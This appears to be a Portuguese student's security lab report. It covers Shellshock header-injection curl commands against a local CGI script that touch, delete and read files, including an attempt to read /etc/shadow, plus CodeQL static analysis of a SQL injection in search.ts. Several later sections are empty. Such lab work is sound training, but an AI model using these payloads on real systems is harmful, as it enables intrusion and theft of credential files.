

# Module 2

-------

# Parte A

## Exercise 2
### Ponto a) 
    curl -H "ATTACK:() {echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"touch /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

Figura 1

 

### Ponto b)
    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/rm /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"rm /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

Figura 2

 

### Ponto c)
Para testar, tentou-se ler primeiro um ficheiro "ficheiro2" com texto no seu conteudo, através do código abaixo:

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /tmp/ficheiro2" localhost:8080/cgi-bin/vul.cgi

Depois, correu-se o mesmo código para o ficheiro pretendido

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" localhost:8080/cgi-bin/vul.cgi

A figura abaixo apresenta os resultados.

Figura 3

 

Como se pode observar, o primeiro ficheiro tinha dados e os mesmos foram impressos na linha de comandos.
No segundo código, nada foi apresentado.
Para garantir que o ficheiro tinha conteudo, abriu-se o docker em modo interativo e fez-se o cat desse mesmo ficheiro, como mostra a imagem abaixo.

Figura 4

 
Para também se entender as permissões de leitura e escrita deste ficheiro, correu-se um código para obter o USER atual, e outro para obter as permissões do ficheiro.

Figura 5

 

O que se pode observar é que o ficheiro necessita de permissões de root, mas o apache corre numa conta de user e não como root.

### Ponto d)
Não porque uma web url não aceita espaços, como no exemplo da figura abaixo, em que foi corrido o seguinte código:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm /tmp/ficheiro

Figura 6

 

Como podemos observar, os espaços são ignorados, e o sistema apenas lê o que está antes dos espaços.

Para tal, necessitamos de converter o espaço num código, sendo o espaço representado pelo código %20B.
Assim, o código fica:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm%20B/tmp/ficheiro

O resultado é apresentado na figura abaixo.

Figura 7

 

O problema neste caso é que o bash não converte este código num espaço literal.

Pelas razões acima referidas e como foi possivel observar, não é possivel fazer o ataque através dos parâmetros.

# Parte B

## Static analysis

### Ponto 2
Neste ponto o objetivo era verificar que uma Github Action é executada para correr a plataforma CWE analytics do CodeQL quando há um evento de push no repositório. Nos subpontos a e b o CodeQL irá ser atualizado ao mudar a descrição do Workflow.
#### a)
Na Figura 8 é possivel verificar as alterações da versão de action 1 para a versão 2:

Figura 8

 

#### b)
Na Figura 9 é possivel verificar a adição do código do workflow trigger.

Figura 9

 

### Ponto 3

Após executar a action e analisar os logs de output foi encontrado o comando a azul presente na Figura 10 que é utilizado pelo CodeQL Action para inicializar a base de dados de code analysis. 

Figura 10

 

### Ponto 4

Neste ponto irá ser explorada a vulnerabilidade CWE-89. No code scanning da security está presente uma lista das diferentes vulnerabilidades detetadas na aplicação com nível decrescente de vulnerabilidade. 

Como se pode observar na Figura 4 foi pesquisada a entrada “Database query built from user-controlled sources” que apresenta uma lista de diversos ficheiros como se pode observar na Figura 11. 

Figura 11

 
O ficheiro que iremos explorar é denominado search.ts (Figura 12).

Figura 12

 

A vulnerabilidade detetada encontra-se na linha sublinhada na Figura 13.
Uma query SQL sem tratamento e sanitização da sintaxe SQL nos inputs do utilizador, pode levar a que estes inputs sejam interpretados como SQL em vez de dados simples de utilizador. Posto isto, algumas verificações de segurança podem ser ultrapassadas ou comandos adicionais podem ser injetados na query para modificar algo do lado do servidor ou executar operações no back-end.

Figura 13

 

Após analisar a vulnerabilidade verificamos a presença de um source que define a origem do problema, neste caso é a variável "criteria" que se encontra dentro da query pois é onde o utilizador insere informação e o sink é o comando afetado pela source, que seria a query "`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`".

### Ponto 5

A análise estática de código pode ter erros como falsos positivos e falsos negativos.

Um falso positivo acontece quando são assinaladas vulnerabilidades que não o são. Por exemplo, utilizar o comando PreparedStatement para prevenir que o input do utilizador interfira com a estrutura da query e o CodeQL assinala nesta query uma vulnerabilidade.

Um falso negativo acontece quando uma vulnerabilidade existente não é assinalada. Um exemplo desta situação seria se a análise por parte do CodeQL for demorada e não há a possibilidade de detetar todas as vulnerabilidades em tempo útil.

## Dynamic analysis

### Ponto 6

Após colocar o endereço  http://10.62.73.125:4005 no browser, verificámos que a aplicação estava a correr devidamente, como se pode observar na Figura 14.

!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

!!!!!!!!!!!!!!!!!   mudar esta imagem !!!!!!!!!!!!!1
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!1
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

Figura 14

 

### Ponto 7

Com as ferramentas do browser acedeu-se aos ficheiros javascript carregados pelo frontend. Como se pode observar na Figura 15 acedeu-se ao ficheiro "main.js" como primeira tentativa.
Neste ficheiro encontrou-se o caminho para o score-board e inseriu-se no browser, concluindo o objetivo.

Figura 15

 

### Ponto 8

Figura 16

 

Figura 17

 

### Ponto 9
#### a)

#### b)

### Ponto 10

### Ponto 11

### Ponto 12

### Ponto 13

### Ponto 14

